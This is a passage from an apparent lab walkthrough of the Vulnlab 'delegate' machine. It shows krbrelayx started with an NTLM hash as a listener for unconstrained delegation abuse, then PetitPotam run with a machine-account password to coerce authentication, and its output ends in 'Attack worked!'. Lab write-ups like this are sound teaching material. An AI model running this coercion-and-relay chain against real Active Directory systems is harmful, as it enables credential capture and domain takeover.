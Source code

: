 
    ➜  krbrelayx git:(master) python3 krbrelayx.py -hashes :13B1E64400203ECF38B1FDEA2B11A09F
    [*] Protocol Client SMB loaded..
    [*] Protocol Client HTTPS loaded..
    [*] Protocol Client HTTP loaded..
    [*] Protocol Client LDAPS loaded..
    [*] Protocol Client LDAP loaded..
    [*] Running in export mode (all tickets will be saved to disk). Works with unconstrained delegation attack only.
    [*] Running in unconstrained delegation abuse mode using the specified credentials.
    [*] Setting up SMB Server
    [*] Setting up HTTP Server on port 80

    [*] Setting up DNS Server
    [*] Servers started, waiting for connections

and run [Petitpotam](https://github.com/topotam/PetitPotam)

    ➜  PetitPotam git:(main) python3 PetitPotam.py -u 'irem$' -p 'Password321!' irem.delegate.vl 10.10.85.108
    /home/elliot/Documents/Vulnlab/Machines/Windows/delegate/PetitPotam/PetitPotam.py:20: SyntaxWarning: invalid escape sequence '\ '
    show_banner = '''

                                                                                                
                ___            _        _      _        ___            _                     
                | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __   
                |  _/  / -_)   |  _|    | |    |  _|    |  _/  / _ \   |  _|  / _` |  | '  \  
                _|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_| 
            _| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""| 
            "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 
                                            
                PoC to elicit machine account authentication via some MS-EFSRPC functions
                                        by topotam (@topotam77)
        
                        Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN



    Trying pipe lsarpc
    [-] Connecting to ncacn_np:10.10.85.108[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
    [+] OK! Using unpatched function!
    [-] Sending EfsRpcEncryptFileSrv!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!

and we got it
